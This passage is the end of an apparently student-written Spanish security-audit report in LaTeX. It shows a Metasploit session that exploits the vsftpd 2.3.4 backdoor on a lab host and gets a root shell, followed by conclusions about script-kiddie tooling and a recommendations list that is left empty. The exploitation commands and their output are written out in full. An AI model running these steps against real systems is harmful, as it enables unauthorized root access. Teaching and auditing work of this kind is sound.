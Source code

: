 \documentclass[11pt]{utalcaDoc}
\begin{document}
\begin{verbatim}
msf5 exploit(auxiliary/scanner/ftp/anonymous) > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 exploit(auxiliary/scanner/ftp/anonymous) >
msf5 exploit(auxiliary/scanner/ftp/anonymous) > use exploit/unix/ftp/vsftpd_234_backdoor
[*] Using configured payload cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.0.184
rhosts => 192.168.0.184
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.0.184:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.0.184:21 - USER: 331 Please specify the password.
[+] 192.168.0.184:21 - Backdoor service has been spawned, handling...
[+] 192.168.0.184:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.0.184:6200) at 2020-08-02 23:00:50 +0000
root
\end{verbatim}

Conclusión: Tenemos una shell con privilegios de root.

\section{Conclusiones y sugerencias}

En este trabajo se presentó el uso de herramientas para la auditoría de seguridad mediante una guia comprensiva de el uso de estas. Finalmente se replicó el trabajo que realiza un script kiddie utilizando msfconsole.

\subsection{Recomendaciones}
No hay que tomar a la ligera el trabajo de un script kiddie, ya que por bastante poco conocimiento o interés tenga en aprender que es lo que hace, existe una gran cantidad de herramientas de uso automatizado disponibles. Esto funciona para ambos lados, sin embargo, urge extremar las medidas de precaución.

En este contexto, podemos resumir nuestras recomendaciones generales en las siguientes:
\end{document}
